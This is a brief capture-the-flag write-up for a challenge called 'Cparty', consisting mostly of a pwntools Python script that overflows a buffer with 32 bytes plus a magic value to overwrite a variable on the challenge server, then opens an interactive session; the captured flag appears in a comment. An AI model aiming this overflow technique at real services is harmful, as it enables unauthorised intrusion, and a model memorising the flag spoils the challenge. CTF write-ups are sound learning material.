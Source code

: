 # Cparty




![](./img/1.png){: .center-image }


To start I connect to the server to see what it asks me :



```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

from pwn import *


p = remote("89.38.210.128", 31338)


p.send("A"*32+p32(0xc0defefe))

p.recv(1024)

p.interactive()

#timctf{d0nt_cr4sh_th3_p4rty_b3_th3_p4rty}
```